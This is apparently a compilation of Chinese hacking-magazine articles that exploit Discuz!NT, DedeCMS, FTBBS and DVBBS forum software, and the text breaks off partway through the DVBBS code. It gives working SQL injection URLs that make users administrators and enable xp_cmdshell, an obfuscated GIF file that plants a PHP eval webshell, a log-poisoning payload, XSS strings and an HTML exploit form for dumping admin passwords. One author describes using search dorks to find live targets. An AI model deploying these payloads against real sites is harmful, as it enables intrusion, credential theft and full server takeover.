Discuz!NT 2.5 是一款功能强大的基于 ASP.net 平台的社区软件。基于先进的 .Net Framework 架构，默认支持 SQL Server 数据库，可扩展支持 Access、MySQL 等多种数据库，支持 IIS5、IIS6、IIS7，安全高效、稳定易用。但是近期 ISTO 成员在其中发现了一个注入漏洞，成功利用此漏洞可以直接修改管理员的密码进入后台，取得管理员权限，从而控制整个网站。

存在漏洞的文件为 `showuser.aspx`，由于对 `ordertype` 变量没处理好，导致可以 SQL 注入，目前常见的利用方法如下：

```text
http://www.xxx.com/showuser.aspx?ordertype=desc;update dnt_users set adminid='1', groupid='1' where username='webtets'

# 将 webtets 设置为管理员

http://www.xxx.com/showuser.aspx?ordertype=desc;update dnt_attachtypes set extension='aspx' where extension='jpg'

## 设置为 aspx 扩展名可以上传
```

之后就可以上传 aspx 木马了。这个利用方法是个通用的方法，并没考虑到个别情况。也就是说，如果在实际渗透中能因地制宜的话，可以有更简便的利用方法。既然 Discuz!NT 默认支持 SQL Server，不好好利用 SQL 众多的存储扩展，岂不是暴殄天物？

ASP.net 注入和 ASP 注入并无太大区别，都分为数字型、字符型、搜索型，根据数据库的不同利用方法才不同。我首先想到的是 SQL 的 `xp_cmdshell` 存储扩展，当然了，这需要论坛用 sa 连接数据库，但并不是所有论坛都这样。搜索“Powered by Discuz!NT 2.5”，我就幸运地遇到了一个这样的论坛，提交：

`http://www.xxx.com/showuser.aspx?ordertype=desc;exec master..xp_cmdshell "net user"`

试探性地看看调用 `xp_cmdshell` 存储扩展会怎么样，结果出错了。马上习惯性地想到是不是管理员删了 `xp_cmdshell` 存储扩展，再仔细一看，不对，出错原因如图1所示。从中可以看出3个问题：

- `xp_cmdshell` 并不是不存在；
- 注入点并不是没权限调用 `xp_cmdshell`（难道是 sa？）；
- 调用 `xp_cmdshell` 被系统阻止了。


马上感觉这可能不是 SQL Server 2000，大概是 SQL Server 2005。在注入点里执行 SQL 语句，没回显不太便利，于是我寄希望于能够用查询分析器。连接网站的 1433 端口，成功，说明 Web 和数据库在同一服务器。马上提交：

`http://www.xxx.com/showuser.aspx?ordertype=desc;exec master..sp_addlogin test, 'test'`

添加用户名和密码为 test 的 SQL 账户；再提交：

`http://www.xxx.com/showuser.aspx?ordertype=desc;exec master..sp_addsrvrolemember test,sysadmin`

将其加到 `sysadmin` 组。页面均返回正常，然后用查询分析器连接数据库成功，但在此处调用 `xp_cmdshell`，仍然是同样的错误提示。在网上搜了一下，找到了解决办法，执行：

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`

就能恢复 `xp_cmdshell` 了，如图2所示。接下来直接用 `xp_cmdshell` 执行命令即可，比如加管理员、开3389等。


事后证明论坛确实使用 sa 账户连接数据库，而且 SQL Server 也是 2005 版的。

遇到特殊情况要特殊处理，我的这次渗透测试就是利用论坛连接数据库的 sa 账户直接取得了系统权限，比上传 WebShell 再提权要省事多了。

- 前置知识：PHP
- 关键词：脚本、DedeCMS、本地文件包含漏洞

# 从 DedeCMS 谈 PHP 本地文件包含漏洞的利用方式

文／图 马传雷  刘进【绿盟科技南京办】


DedeCMS 虽然最近修补了若干注入漏洞，但是由于开发人员的疏忽，该系统依然存在一些比较严重的安全问题。下面我们就一起来看一个本地包含漏洞，值得一提的是，该漏洞不需要开启会员功能，也不需要使用“%00”截断，所以不受 GPC 影响，似乎有一点点利用价值。

以下代码摘自 `\special\index.php` 文件（版本为 DedeCMS V5.1 免费版 SP1 pw 整合版）。

综合起来，我们可以有如下几个思路：第一，如果网站开启了会员功能，我们自己构造恶意图片上传，然后将其包含。5.0 版本的 DedeCMS 对上传图片的内容做了过滤，不允许出现“<?”或者“<%”，在后面我会讲突破的办法。第二，如果没有开启会员功能，可以考虑使用包含 Web 日志的办法，这个方法需要穷举 Web 日志的路径。如果要是换了别的系统，还是有其他方法的，比如包含网站中不能直接访问的文件来转移成其他的漏洞。下面我们实战一下这两个方法。

方法一：利用会员功能上传内容为 PHP 代码的图片并包含之。在老版本的 config_base.php 文件中有一段这样的代码：

```php
<?php
if(!isset($art_shortname)) $art_shortname = '';
// 如果没有提交 $art_shortname，则初始化为空。
// 这个地方对 $art_shortname 没有做过滤
$specfile = dirname(__FILE__)."/spec_".$art_shortname;
// $art_shortname 污染 $specfile，后面没有继续做处理
if(file_exists($specfile)) {
    include($specfile);
    // 带入 include 函数，导致本地文件包含漏洞
    exit();
}
?>
```

也许大家已经意识到了，这里有一个不太便利的地方，如果要程序接受我们的变量，就需要开启 register_globals，就是这个原因大大削弱了该漏洞的威力。抛开这个不谈，我们重点从这个地方谈一下本地文件漏洞的几个利用方式。

```php
// 检测上传的文件中是否有危险代码，有直接退出处理
if(!isset($cfg_NoUploadSafeCheck)){
    if(is_array($_FILES)){
        foreach($_FILES AS $_name => $_value){
            ${$_name} = $_value['tmp_name'];
            $_fp = @fopen(${$_name},'r');
            $fstr = @fread($_fp,filesize(${$_name}));
            @fclose($_fp);
            if($fstr!='' && ereg('<\?|<%', $fstr)){
                echo '你上传的文件中含有危险内容，程序终止处理！';
                exit();
            }
        }
    }
}
```

从这段代码的正则表达式可以看出，不允许上传文件的内容里面出现“<?”或者“<%”。为了让这个漏洞通用一点，我们先讨论突破这段过滤的方法。

首先构造想通过本地包含执行的代码。

```php
<?php
fputs(fopen('a.php','w'),'<?php eval($_POST[a]);?>');
?>
```

代码很容易看懂，就是写一句话木马到 a.php 文件。因为程序对内容做了过滤，我们加上一个图片文件头“GIF89A”，然后我们想办法消除掉“<?”。PHP 支持 `<script>` 形式的标签，所以可以改成如下形式：

```php
<script language="php">
fputs(fopen('a.php','w'),'<?php eval($_POST[a])?>');
</script>
```

仅仅这样还是不够的，因为内容中间还是有“<?”，这里可以用 ord() 函数再次将其编码。最后得到的 ShellCode 很完美，只要将如下代码保存为 flyh4t.gif 即可顺利绕过过滤，上传到服务器。

```php
GIF89A
flyh4t test the site
<script language="php">
fputs(fopen(chr(46).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(97).chr(93).chr(41).chr(59).chr(63).chr(62));
</script>
```

后面的工作就很简单了，注册一个账户，发表文章，选择上传图片，将构造的 flyh4t.gif 上传到服务器并记录地址。再访问 special/index.php，并根据上传图片地址提交参数。

```text
http://127.0.0.1:808/special/index.php?art_shortname=../../图片地址
http://127.0.0.1:808/special/index.php?art_shortname=../../../图片地址
http://127.0.0.1:808/special/index.php?art_shortname=../../../../图片地址
......
```

依次增加“../”，我加了两次就执行代码了，实际测试的时候可能要更多次，这主要是由 Web 路径决定的。一直到页面不能显示文字，出现小红叉就不用提交了，此时说明代码已经执行了，会在 special 目录下生成 a.php 文件，内容是“<?eval($_POST[a]);?>”，也就是一句话木马，连接上去就可以了。

方法二：包含 Apache 日志。这个方法最早由 zziyz 在相关文章中提出。核心思路是把 PHP 语句放进提交的 URL，被 Apache 记录到日志里，再通过 PHP 包含日志执行。缺点是日志可能很大导致超时，且有时日志路径难以枚举。

要想利用这个方法，可以按照以下步骤来操作。首先向网站 GET 如下数据：

```text
http://127.0.0.1:808/$code="<?php fputs(fopen(chr(46).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(97).chr(93).chr(41).chr(59).chr(63).chr(62).chr(112).chr(112).chr(112));?>";
```

这样操作以后，PHP 代码就写到日志中了，接下来就是穷举日志路径并包含之。我写了程序实现该过程，结果如图1所示。


图1

文章就到这里了，感兴趣的读者可以在此基础上继续发散思维，说不定可以找到更好的利用方法。

- 前置知识：无
- 关键词：脚本、注入、跨站

# 0Day：极速秒杀 FTBBS 6.X

文／图 诚姝 [J.L.S.T] @ 肇庆


飞天论坛 FTBBS 是仅次于 DVBBS 和 BBSXP 的主流 ASP 论坛程序之一，它是首家采用 ASP、Cache 等技术生成静态页面的论坛，也是首家采用框架平板两种结构的合二为一的系统。在其官方网站上自称是速度最快、占用系统资源最小的论坛程序。本人在测试这款论坛程序的时候，的的确确感受到了其速度确实非常快。FTBBS 在经过国内众多高手的漏洞挖掘后，代码编写越来越严谨，安全性也有了很大的提高。FTBBS 的官方更声称飞天论坛有严密的安全部署和攻击防护体系，三重防 SQL 注入和 XSS 跨站检测，真正彻底杜绝了漏洞的产生。那么，事实究竟是不是如此呢？下面我们就对其 6.8 版最新静态生成版做一个代码检测！

首先我们要看看其编写代码的风格，其 blog.asp 文件的部分代码如下：

```asp
…省略…
<!--#include file="conn.asp"-->
<%
userid=request.QueryString("userid")
// 用 request.QueryString 取变量 userid 的值
%>
…省略…
sql="select "&ft&"ftblog.id,"&ft&"ftblog.blogtitle,"&ft&"ftblog.blogtypeid,"&ft&"ifblog.xinqin,"&ft&"ftblog_type.blogtype,"&ft&"ftblog.blogcontent,"&ft&"ftblog.writedate,"&ft&"ftblog.blognum,"&ft&"ftblog.hits from "&ft&"ftblog,"&ft&"ftblog_type where "&ft&"ftblog.blogtypeid="&ft&"ftblog_type.id and "&ft&"ftblog.sign=0 and "&ft&"ftblog.blogqs=0 and "&ft&"ftblog.userid="&userid&" and ..."
blogphoto=0 order by "&ft&"ftblog.id desc"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,3,3
```

从以上代码可以看出，userid 变量在被 request.QueryString 传值后并没有做任何过滤就被带进数据库进行查询了，至于 ft 变量是安装论坛程序时自定义的表段前缀，其缺省值为“ft_”。这是一个很典型的注入漏洞，但在实践的时候却提示“对不起，非法 URL 地址请求！”，如图1所示。


图1

究竟是什么造成这样的现象的呢？这里暂且不说，下面再看看 conn.asp 和 inc/htmlencode2.asp 文件中定义的一些过滤函数的代码。

```asp
' 以下是 qs() 函数的代码
Dim conn
Dim qs,errc,iii
qs=LCase(request.servervariables("query_string"))
' 获取所有 request.QueryString 的值
Dim nothis(17) ' 定义数组 nothis
nothis(0)="net user"
nothis(1)="xp_cmdshell"
nothis(2)="/add"
nothis(3)="exec%20master.dbo.xp_cmdshell"
nothis(4)="net localgroup administrators"
nothis(5)="select"
nothis(6)="count"
nothis(7)="asc"
...
```

```vb
nothis(8)="char"
nothis(9)="mid"
nothis(10)="'"
nothis(11)="\""
nothis(12)="insert"
nothis(13)="delete"
nothis(14)="drop"
nothis(15)="truncate"
nothis(16)="from"
nothis(17)="and user>0"
errc=false
for iii=0 to ubound(nothis)
  if instr(qs,nothis(iii))>0 then errc=true
next
if errc then
  Response.Write("对不起，非法URL地址请求!")
  response.end
end if

Function Checkstr(Str)
  If isnull(Str) Then
    CheckStr = ""
    Exit Function
  End If
  Str = Replace(Str,Chr(0),"")
  CheckStr = Replace(Str,"'","''")
End Function
```

我们再来看看 htmlencode2.asp 文件的 htmlencode2() 函数的代码：

```vb
...省略...
function htmlencode2(str)
  dim result
  dim l
  if isNULL(str) then
    htmlencode2=""
    exit function
  end if
  l=len(str)
  result=""
  dim i
  for i=1 to l
    select case mid(str,i,1)
      case "<"
        result=result+"&lt;"
      case ">"
        result=result+"&gt;"
      ...
    end select
  next
end function
```

```vb
result=result+"&gt;"
case chr(13)
  result=result+"<br>"
case chr(34)
  result=result+"&quot;"
case "&"
  result=result+"&amp;"
case chr(32)
  result=result+"&nbsp;"
  if i+1<=l and i-1>0 then
    if mid(str,i+1,1)=chr(32) or mid(str,i+1,1)=chr(9) or _
       mid(str,i-1,1)=chr(32) or mid(str,i-1,1)=chr(9) then
      result=result+"&nbsp;"
    else
      result=result+" "
    end if
  else
    result=result+"&nbsp;"
  end if
case chr(9)
  result=result+"    "
case else
  result=result+mid(str,i,1)
end select
next
htmlencode2=result
end function
```

不难看出，这个函数是用来过滤 XSS 跨站字符的，其中过滤了双引号“\"”、“<”和“>”等重要的跨站字符。

现在知道为什么刚才 blog.asp 文件中的注入漏洞不能利用的原因了吧？就是因为 blog.asp 文件的 userid 变量是 request.QueryString 来取值的，而 blog.asp 文件包含了 conn.asp，所以 request.QueryString 传来的值会受到 qs() 函数的影响而停止了数据库查询操作。其实 FTBBS 存在很多这样的诱惑，明明是没有过滤的变量，却因为 conn.asp 文件中 qs() 函数的原因而不能成功利用，这着实是令人抓狂的，不知道是不是程序的作者故意玩弄研读其论坛程序的人。

# 百密一疏，跨站之灾

首先，我们来介绍 FTBBS 存在的跨站漏洞！modmyinfo.asp 文件的部分漏洞代码如下：

```asp
<!--#include file="conn.asp"-->
<!--#include file="inc/htmlencode2.asp" -->
<!--#include file="inc/ubbcode.asp" -->
...省略...
if request.form("act")="Y" then
```

```vb
clubuser_email = CheckStr(request.form("clubuser_email"))
clubuser_address = CheckStr(request.form("clubuser_address"))
clubuser_marriage = request.form("clubuser_marriage")
homepagetitle = CheckStr(request.form("homepagetitle"))
clubuser_note = CheckStr(fHTMLCode(request.form("clubuser_note")))
...
str = "update ..."
conn.execute str
if bstr="1" then
  call setcookie(...)
  call makefolder(...)
  msg="<font color=red>恭喜你成为了博客</font>"
else
  msg="<font color=red>修改成功!</font>"
end if
```

从以上代码可以看出，变量都经过了 CheckStr() 函数的过滤，而 CheckStr() 函数只过滤了“chr(0)”和“'”，这并不影响我们的跨站攻击。但大家要注意 clubuser_note 变量，这个变量在经过 CheckStr() 函数过滤后又被 inc/ubbcode.asp 文件中的 fHTMLCode() 函数过滤了。我们再看看 fHTMLCode() 函数是怎么写的。

```vb
function fHTMLCode(fString)
  if not isnull(fString) then
    fString = replace(fString,"&gt;",">")
    fString = replace(fString,"&lt;","<")
    fString = Replace(fString,"&nbsp;"," ")
    fString = Replace(fString,"&quot;",CHR(34))
    fString = Replace(fString,"&#39;",CHR(39))
    fString = Replace(fString,"&amp;","&")
    ...
    fHTMLCode = fString
  end if
end function
```

fHTMLCode() 函数过滤了众多跨站字符，要绕过它还是比较难的，所以 clubuser_note 变量就不能利用了。下面我们来测试一下这个漏洞！

首先注册一个用户，然后打开“个人博客”功能，点击右上方的“激活成为博客”按钮，就会出现一个博客激活的页面，我们在“blog 标题”中输入跨站测试语句 `<script>alert("黑客防线Number one!!")</script>`，然后点击“确定修改”按钮如图2所示。现在我们回到 blog 的首页，呵呵，跨站漏洞成功执行了！如图3所示。接下来我们来看看其第二个。


XSS 跨站漏洞，漏洞出在 moduseract.asp 文件中，部分漏洞代码如下：

```vb
password=trim(request.form("password"))
oldpwd=trim(request.form("oldpwd"))
clubuser_marriage=request.form("clubuser_marriage")
question=Checkstr(trim(request.form("question")))
answer=trim(request.form("answer"))
signname=Checkstr(request.form("signname"))
email=Checkstr(trim(request.form("email")))
clubuser_address=Checkstr(trim(request.form("clubuser_address")))
...
rs("clubuser_question")=question
rs("clubuser_sex")=request.form("sex")
rs("clubuser_email")=email
rs("signname")=signname
rs("clubuser_marriage")=clubuser_marriage
rs("clubuser_address")=clubuser_address
if request("img")<>"" then
  rs("userimg")=request("img")
end if
rsr.update
rsr.close
```

```asp
conn.close
msg="恭喜你，修改个人信息成功！"
sign=1
call ftbbs_msg("恭喜你，修改个人信息成功！",url)
```

从以上代码可以看出，所有变量都错误地使用了 Checkstr() 函数来过滤变量的字符，导致跨站漏洞产生，但在显示资料的页面却只显示 email 和 clubuser_address 两个变量，所以我们只能利用这两个变量进行跨站攻击。

打开“修改用户资料”页面，在“邮箱地址”或“联系地址”其中一处填入跨站语句“`<script>alert("黑客防线")</script>`”，然后打开个人资料页面，就会发现跨站语句已经被成功执行了，如图4所示。


关于利用的方法我就不再详述了，如果大家看过我以前发表的《深入浅出XSS》这篇文章的话应该都会利用的。好了，FTBBS 的跨站漏洞就介绍到这里。漏洞的修补其实很简单，就是把 Checkstr() 函数换成 htmlencode2() 函数或 fHTMLCode() 函数就可以了。

# 心狠手辣的删除任意文件漏洞

这个漏洞可谓是杀人于无形，在 bbsadmin/pldel.asp 文件中有以下代码：

```asp
<!-- #include file="../conn.asp" -->
<!-- #include file="../admin/check_master.asp" -->
<!-- #include file="../admin/check_admin_qs.asp" -->
...省略...
FilePaTh_ = Server.MapPath("../"& infolder&"/"&rs("bbs_img"))
Set fso = CreateObject("Scripting.FileSystemObject")
If fso.FileExists(FilePaTh_) = True Then
    fso.DeleteFile(FilePaTh_)
    ' 如果 FilePaTh_ 变量取得的文件存在的话，就删除它
end if
Set fso = nothing
end if
```

大家看到了吗？好可怕的漏洞！只要 FilePaTh_ 变量取得的文件存在的话，就把它删除。

bbs_img 变量是我们可以控制的，如果不怀好意的人把它的值改为“../conn.asp”的话，后果大家都知道吧？不过要利用这个漏洞的首要条件就是你已经进入了后台，这样的条件真的是太苛刻了，但是没关系，接下来的漏洞能让我们直接秒杀 FTBBS！

# 万恶之首，一击必杀

下面要介绍的漏洞就是本文的焦点，它能够瞬间秒杀掉 FTBBS 6.X 版的程序！

要在这个论坛程序中寻找注入漏洞不是一件容易的事，但是我们可以先定下挖掘思路，再对其进行挖掘，这样的话效果很可能会事半功倍！

下面我们就来分析挖掘思路。首先，我们不能寻找直接用 request.QueryString，因为 conn.asp 文件已经对其进行过比较严格的过滤；我经过了10个小时左右的搜查，得知所有文件夹都包含了 conn.asp，所以我们不能利用 GET 来注入。然后我们就把希望寄托在 POST 和 Cookies。

如果靠 Cookies 来注入的话，速度比较慢，尽管网上也发布了专门针对 Cookies 的注入工具，但我觉得 Cookies 注入玩起来不怎么舒服，所以我就把目标定向了 POST。POST 方式提交的数据是靠 request.form 来取值的，而绝大多数 request.form 取得值进行数据库查询操作时都会用单引号包围，而 FTBBS 几乎所有变量都用了 Checkstr() 函数进行了过滤。

前面已经说了，Checkstr() 函数会过滤掉单引号，所以用 request.form 来取值的变量还是很难存在漏洞。那么我们就没办法了吗？答案是否定的，大家试想一下，如果变量是直接用 request() 来取数字型变量值的话，我们不就“有空子可钻”了吗？

思路有了，下面就是实践的时候了。经过近2小时的挖掘，发现在 haoyou.asp 文件中存在以下漏洞代码：

```asp
<!--#include file="conn.asp"-->
<!--#include file="inc/publicfun.asp"-->
<%
userid=request("userid")
' 变量 userid 直接用了 request() 来取值
%>
……省略……
sql="SELECT * FROM "&ft&"haoyou, "&ft&"clubuser WHERE "&ft&"haoyou.sign=0 and "&ft&"clubuser.clubuser_id="&ft&"haoyou.userid and "&ft&"haoyou.userid="&userid&" order by "&ft&"haoyou.id desc"
' 进行数据库查询
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,3,1
```

```html
用版——by：诚妹</title>
<center><H1>飞天论坛asp版通杀 0day 利用程序黑客防线专用版 —— by 诚妹</H1></center>
<form method=post name="luoye">
目标地址：<input name="act" type="text" id="act" size="140" value="网址最后要加‘/’">...
注入语句：<input type=text ... value="'1 and 1=2 union select 1,2,admin_pwd,4,5,...,58 from ftbbs_admin'">
<input type=submit value="一击必杀!" onClick="javascript:luoye.action=document.all.act.value+'haoyou.asp';">
...
</html>
```

大家看看我的注释，变量 `userid` 直接用了 `request()` 取值后就进入数据库进行查询了。由于变量是直接用 `request()` 进行取值的，所以我们能用 GET、POST 和 Cookies 三种方式去提交我们的数据。前面已经说过 GET 方式的注入已经堵死了，所以我们要用 POST 来进行注入。

我打开 FTBBS 的数据库查了下 `haoyou` 和 `clubuser` 两个表的字段总和，为什么要查看它们的字段之和呢？因为上面代码中的 SQL 语句进行的是联合查询，所以我们要用 UNION 联合查询的时候就必须要知道两个表的字段总和。

在查看了数据库之后得知，6.3 动态版 FTBBS 的 `haoyou` 和 `clubuser` 两个表字段总和为 58，而 6.8 最新静态版的两个表字段总和为 61，而代码中查询的字段叙述为 3，所以我们要在第三个字段插入字段名。

我构造的语句为：`'1 and 1=2 union select 1,2,admin_pwd,4,5,6,7,8,9,10,...,58 from ftbbs_admin`，用这条语句就能爆出 6.3 动态版的所有后台管理员的密码了。

而爆 6.8 最新静态版管理员密码的语句为：`'1 and 1=2 union select 1,2,admin_pwd,4,5,6,7,8,9,10,...,61 from ft_ftbbs_admin'`。这里要注意的是 `ft_ftbbs_admin` 这个表段名中的 `ft_` 是 6.8 最新版安装时自定义的表段前缀，默认为 `ft_`。

然后我又花了点时间写了个 FTBBS 6.X 版 0Day 利用程序，其代码如下：

```html
<html>
<title>飞天论坛asp版通杀 0day 利用程序黑客防线专用版 ...
```

这个 0Day 利用程序是通杀 6.X 的，界面如图5所示。


图5

我们先来试爆 FTBBS 6.8 最新静态版所有后台管理员的密码吧！把第二个框中的注入语句“`1 and 1=2 union select 1,2,admin_pwd,4,5,6,7,8,9,10,11,12,...,58 from ftbbs_admin`”改为“`1 and 1=2 union select 1,2,admin_pwd,4,5,6,7,8,9,10,11,12,...,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61 from ft_ftbbs_admin`”，然后在“目标地址”中输入要爆破的目标网址，点击“一击必杀”按钮，一会儿功夫，所有后台管理员的密码尽收眼底，如图6所示。


图6

爆破的过程我就不详细讲解了，经常看黑防的朋友都应该知道。下面再讲讲如何拿 WebShell！在 bbsadmin/pagesign.asp（论坛基本参数设置功能的页面）文件中有设置上传文件类型的功能，但我们添加“asp”或“asa”后缀时其返回变成“***”。看来是被过滤了，还是从代码入手吧！下面是 bbsadmin/pagesign.asp 文件的部分代码：

```asp
rs("upload_type")=replace(replace(replace(Request.Form("upload_type"),"asp","***"),"asa","***"),"exe","***")
rs.update
```

原来是 upload_type 变量过滤了 asp、asa 和 exe，没关系，因为 ASP 的映射不单单只有 asa，还有 cdx、cer 和 htr。我们直接添加“cer”类型不就能获得 WebShell 了吗？但是，成功添加了“cer”后，在论坛上传时却显示“您上传的文件有问题，上传失败”，这是什么原因呢？我们来看看论坛上传文件 SaveUpFile.asp 的部分代码。

```asp
for each formName in upload.file
  ' 列出所有上传了的文件
  set oFile=upload.file(formname)
  filesize=oFile.FileSize ' 取得文件大小
  vfname = makefilename(now())
  Randomize
  Random=Int((1000 - 100 + 1) * Rnd + 100)
  vfname=vfname+"_"+Random
  FileExt=oFile.FileExt ' 取文件扩展名
  filetype=oFile.FileMIME ' 取文件头类型
  if filetype="text/plain" then ' 判断数据包
    response.write "您上传的文件有问题!&nbsp;&nbsp;"
    <a href=FtbbsUpFile.asp?filename=" & htmlfilename & ">重新上传</a>
    response.end
  end if
```

原来当我们上传的文件类型为“text/plain”时，就会返回以上错误提示，看来我们不能通过添加额外的 ASP 扩展名来拿 Shell 了。既然不能添加额外的 ASP 扩展名，那添加 `.php` 这个扩展名总行吧？答案是肯定的。上传好文件后，把“down.asp?id=xx”的地址复制到地址栏里打开，就能看到 Shell 了。我上传的是 PHP 一句话木马，如图8和图9所示。


图8


图9

在我准备对官方网站进行测试时，发现其官方网站正在维护中，所以我没能够对其官方网站进行测试，实属遗憾！另外，myphoto.asp 也存在注入漏洞，部分漏洞代码如下：

```asp
<!-- #include file="conn.asp" -->
userid=request("userid")
....省略....
sql="SELECT * FROM "&ft&"ftbbs_upload WHERE (id IN(SELECT MAX(id) FROM "&ft&"ftbbs_upload GROUP BY photo_name)) and (bbs_blog_type=1 or bbs_blog_type=2) and (sign=0 or sign=2) and clubuser_id="&userid&" order by indate desc"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,3,1
```

关于这个漏洞我就不详细讲解了，和 haoyou.asp 差不多，就留给大家自己去测试吧！FTBBS 6.X 的漏洞就为大家介绍到这里。其实，我认为只要有耐心，无论程序写得多么严谨，都有可能挖出漏洞的！本文行文仓促，难免会有错漏，还请大家多多包涵！如果有什么想讨论的都可以来黑防论坛找我，我的 ID 是“诚妹”。

- 前置知识：无
- 关键词：脚本、注入、跨站


# DVBBS 2.0 PHP++：再现多个 0Day

文／图 诚羡娜[J.L.S.T] @ 擎庆

在 2008 年第 7 期的《黑客防线》杂志上，oldjun 发表了一篇关于 DVBBS PHP 版的注入漏洞。看过其文章后，我就从官方下载了一套最新版并打上了所有的补丁。在随后研读 DVBBS PHP 版的代码时，我也发现了 DVBBS PHP 版存在的几个安全漏洞，于是便有了此文。

## 详细分析跨站漏洞

第一个跨站漏洞主要存在于 spacemanage.php 文件和 spaceindex.php 文件中。可以在动网 PHP 博客主页中执行跨站代码，所以危险性非同小可！以下是 spacemanage.php 文件中的部分漏洞代码。

```php
if( $m === '1' ){ // 发表文章、收藏、链接、音乐、交易、相册
    if( $action === 'savepost' ){
        spaceHeader(array('stats'=>$stats,'isSystem'=>$isSystem,'topEnable'=>$topEnable,'navEnable'=>$navEnable));
        Post_Save(true);
        exit;
    }
    ……省略……
    function Post_Save($argSaveNew=true){
        global $dv,$db,$lang,$objEnc,$spaceSystemSetting,$spaceUserInfo;
        // 检查POST的来源
        if( !ChkPost() ){
            spaceShowMsg($lang['spaceError:str0'],0);
            return false;
        }
    }
}
```

```php
// 检查验证码
if( $spaceSystemSetting[4] == 1 AND CodeIsTrue() !== true ){
    spaceShowMsg($lang['spaceError:str5'],0);
    return false;
}

// 初始化$_objEnc
if( empty($_objEnc) ){
    $_objEnc = & DV_Encoding::GetEncoding($GLOBALS['charset']);
}

// 检查标题
$_P_Title = trim($GLOBALS['title']);
if( $_P_Title === '' OR $_objEnc->StrLength($_P_Title) > 250 ){
    spaceShowMsg($lang['spaceError:str28'],0);
    return false;
}

// 检查搜索关键字
$_P_SearchKey = trim($GLOBALS['searchkey']);
if( $_P_SearchKey === '' ){
    spaceShowMsg($lang['spaceError:str29_1'],0);
    return false;
}
if($_objEnc->StrLength($_P_SearchKey) > 250 ){
    spaceShowMsg($lang['spaceError:str29'],0);
    return false;
}

// 检查日期
$_P_DDateTime = trim($GLOBALS['ddatetime']);
if( $_P_DDateTime === '' OR !isDate($_P_DDateTime) ){
    spaceShowMsg($lang['spaceError:str29'],0);
    return false;
}
$_P_DDateTime = (dv_gmtimestamp(dateFormat($_P_DDateTime,'Y-m-d')) - getUserTimeZoneOffset())." 00:00:00";

// 检查类别 stype
$_P_sType = trim($GLOBALS['stype']);
if( $_P_sType < 0 OR $_P_sType > 5 ){
    spaceShowMsg($lang['spaceError:str30'],0);
    return false;
}

// 检查话题 scatid
$_P_sCatID = trim($GLOBALS['scatid']);
if( $_P_sCatID == -1 ){
    spaceShowMsg($lang['spaceError:str31'],0);
    return false;
}

// 检查所属栏目 catid
$_P_Catid = trim($GLOBALS['catid']);
if ('' == $_P_Catid OR -1 == $_P_Catid OR !is_numeric($_P_Catid)){
    $_P_Catid = 0;
}else{
    $_P_Catid = is_numeric($_P_Catid) ? $_P_Catid : 0;
}

$_P_Lock = trim($GLOBALS['lock']);
$_P_Best = trim($GLOBALS['best']);

// 检查内容
$_P_PostContent =& CheckAlipay();
if( $_P_PostContent === '' ){
    $_P_PostContent = trim($GLOBALS['postcontent']);
}
if( $_P_PostContent === '' ){
    spaceShowMsg($lang['spaceError:str33'],0);
    return false;
}
$_P_PostContent = str_replace(array("\r", "\n"), '', $_P_PostContent);
$_P_PostContent =& spaceFormatCode($_P_PostContent);

$_P_PostTitleNote = trim($_POST['posttitlenote']);
if ($_P_PostTitleNote != '') {
    $_ubbcode = stripslashes(spaceUbbCode($_P_PostTitleNote, false));
    $_P_PostTitleNote =& getTitleNote($_ubbcode, 0, $spaceSetting[2]);
    $_P_PostTitleNote =& _imgaddjscode($_P_PostTitleNote);
} elseif ($_P_PostContent != '') {
    $_ubbcode = stripslashes(spaceUbbCode($_P_PostContent, false));
    $_P_PostTitleNote =& getTitleNote($_ubbcode, 0, $spaceSetting[2]);
    $_P_PostTitleNote =& _imgaddjscode($_P_PostTitleNote);
}
......省略......
$db->query("INSERT INTO {$dv}space_topic(CatID,sCatID,UserID,UserName,Title,TitleNote,PostTime,IsLock,sType,LastPostTime,IsBest,S_Key,Weather) VALUES ('{$_P_Catid}','{$_P_sCatID}','{$GLOBALS['spaceUserID']}','{$GLOBALS['spaceUserName']}','{$_P_Title}','".$db->escape_string($_P_PostTitleNote)."','{$_P_DDateTime}','{$_P_Lock}','{$_P_sType}','{$_P_DDateTime}','{$_P_Best}','{$_P_SearchKey}','{$_P_Weather}')",array('debug'=>$_s_blnDebug));
$_RootID = $db->scalar("SELECT MAX(topicid) FROM {$dv}space_topic");
```

从代码中可以看出，`P_Title`、`P_SearchKey` 等变量都没有做任何过滤就插入到数据库中了，这不仅仅是跨站漏洞，还是一个注入漏洞！但由于所有进入数据库中的变量都用了单引号加在变量的前后，所以导致我们只能在 `magic_quotes_gpc = on` 的时候才能成功地进行注入，所以如果要把这个漏洞归类于注入漏洞的话，这仅仅是个 Bug，并不是漏洞。

我们再来看看 `spaceindex.php` 文件的部分代码：

```php
$arrstmt = array(
    // 最新发表
    'newly_post' => array(10, "SELECT /*!40001 SQL_CACHE */ topicid, catid, scatid, posttime, title,
    (CASE WHEN LENGTH(title)>40 THEN CONCAT(SUBSTRING(title, 1, 30), '...') ELSE title END) AS SubTitle,
    stype, userid, 'newly_post' AS arrkey FROM {$dv}space_topic /*+32312 USE INDEX(PRIMARY) */
    ORDER BY topicid DESC"),

    // 个人空间排行——用户发主题帖总数排名前10
    'hot_space' => array(10, "SELECT /*!40001 SQL_CACHE */ userid, username,
    (CASE WHEN LENGTH(username)>4 THEN CONCAT(SUBSTRING(username, 1, 4), '...') ELSE username END) AS SubUserName,
    nickname,
    (CASE WHEN LENGTH(nickname)>4 THEN CONCAT(SUBSTRING(nickname, 1, 4), '...') ELSE nickname END) AS SubNickName,
    spacename, spacetitle, syscatid, topicnum, 'hot_space' AS arrkey
    FROM {$dv}space_user /*+32312 USE INDEX(topicnum) */ ORDER BY topicnum DESC"),

    // 热门文章——回帖总数排名前10的主题帖
    'hot_article' => array(10, "SELECT /*!40001 SQL_CACHE */ topicid, catid, scatid, userid, username ..."),

    // 最新图片、相册
